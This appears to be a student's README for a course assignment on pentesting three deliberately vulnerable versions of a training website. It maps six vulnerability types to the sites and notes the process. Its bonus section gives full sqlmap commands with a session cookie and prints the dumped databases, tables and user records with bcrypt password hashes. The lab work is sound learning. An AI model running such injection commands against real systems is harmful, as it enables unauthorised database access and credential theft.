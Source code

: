 # Project 8 - Pentesting Live Targets

Time spent: **11** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

![](gif/SQLI.gif)

Vulnerability #2: Session Hijacking/Fixation

![](gif/session_hijacking_fixation.gif)

## Green

Vulnerability #1: Username Enumeration

![](gif/username_enumeration.gif)

Vulnerability #2: XSS

![](gif/XSS.gif)

## Red

Vulnerability #1: IDOR

![](gif/IDOR.gif)


Vulnerability #2: CSRF

![](gif/CSRF.gif)

## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.

![](png/error.png)

XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
* globitek_blue
* globitek_green
* globitek_red
* information_schema
* mysql
* performance_schema
* sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]

| Tables                  |
|-------------------------|
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |


I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]

| Column          | Type         |
|-----------------|--------------|
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |


Finally dumped user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[4 entries]

| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
|----|---------------------|-----------|-----------|---------------------|-----------|--------------------------------------------------------------|
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |
| 4  | auser@test.com      | auser     | test      | 2018-03-30 04:19:48 | lets       | $2y$11$jHNjgSVYcC0QY.fn.0UhiOrjW./lYgHkvWhxjV6.Vi2tUBk23lAwS |


It seems that the database is using bcrypt encryption.



